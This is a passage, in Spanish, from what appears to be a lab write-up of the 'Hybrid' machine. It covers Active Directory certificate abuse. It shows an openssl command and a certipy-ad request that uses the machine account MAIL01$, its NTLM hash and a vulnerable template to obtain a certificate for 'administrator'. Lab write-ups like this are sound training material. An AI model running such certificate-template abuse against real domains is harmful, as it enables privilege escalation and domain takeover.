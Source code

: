 Con esto se puede proceder a obtener el certificado con el usuario MAIL01$.

![](../assets/images/vl-hybrid/Pasted_image_20240713234912.png)

A continuación, especificamos el size que obtuvimos en la shared folder.

`openssl x509 -in ./fullchain.pem -noout -text`

![](../assets/images/vl-hybrid/Pasted_image_20240713235042.png)

Volvemos a tirar el comando está vez con el size.

`certipy-ad req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip 10.10.204.117 -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096 -debug`

![](../assets/images/vl-hybrid/Pasted_image_20240713235252.png)
